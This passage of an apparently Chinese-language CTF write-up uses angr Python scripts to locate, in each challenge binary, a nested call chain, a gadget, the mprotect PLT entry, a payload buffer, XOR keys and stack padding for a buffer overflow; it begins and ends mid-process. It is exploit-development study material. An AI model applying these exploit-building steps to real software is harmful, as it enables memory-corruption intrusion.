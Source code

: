不过大致形式比较类似，所以从找共同点。

1. 找到套娃函数的开始位置，即哪里执行了 `call cylic_0`，发现这个始终是 `main` 倒数第二个 `call`.
```python
cfg = project.analyses.CFGFast()
main_func = cfg.kb.functions.function(name='main')
main_call = sorted(main_func.get_call_sites())
start_addr = main_call[-2]
```

2. 找到套娃函数的最终成功位置，发现总是一共会执行 16 次，即执行到 `cylic_16` 会成功
```python
success_addr = main_func.get_call_target( start_addr )
for i in range(16):
    success_func = cfg.kb.functions.function( success_addr )
    success_call = sorted( success_func.get_call_sites() )
    success_addr = success_func.get_call_target( success_call[0] )
```

3. 寻找 gadget
```python
gadget_addr = main_func.get_call_target( main_call[1] ) + 0x2C
```

4. 寻找 `mprotect` 地址，通过 `mprotect@plt` 即可
```python
obj = project.loader.main_object
mprotect_addr = obj.plt['mprotect']
```

5. 寻找存储 payload 地址，假设是 `data`，发现总会有 `lea rdx, data[rax]` 语句，所以前三字节是固定的
```python
with open(path_to_binary, 'rb') as f:
    s = f.read()
# lea rdx, xxx[rax]
lea_addr = s.find(b'H\x8d\x90') 
data_addr = u32( s[lea_addr+3 : lea_addr+7] )
```

6. 寻找 xor 值，不同程序是不同的。
```cpp
if ( i & 1 )
  byte_14341E0[i] ^= 0x13u;
else
  byte_14341E0[i] ^= 0xFEu;
```
```python
xor_data = [0, 0]
xor_addr = s.find(b'\x83\xf0')
xor_data[0] = s[ xor_addr+2 ]
xor_addr = s.find(b'\x83\xf0', xor_addr+2)
xor_data[1] = s[ xor_addr+2 ]
```

7. 查找套娃函数的栈分配是多少，即需要填充多少字节，然后才可以溢出，这个填充数也是不一样的
进入套娃函数分析，刚开始就是调整栈空间，所以就读入语句即可。
```
.text:00000000012311A8 000                 push    rbp
.text:00000000012311A9 008                 mov     rbp, rsp
.text:00000000012311AC 008                 sub     rsp, 20h  =======> change rsp
.text:00000000012311B0 028                 mov     eax, cs:dword_14341D0
...
.text:00000000012311C8 028                 call    _memcpy
.text:00000000012311CD 028                 nop
.text:00000000012311CE 028                 leave
.text:00000000012311CF 000                 retn
```
```python
block = project.factory.block( success_addr + 0x4 )
padding_len = (block.bytes[3])
```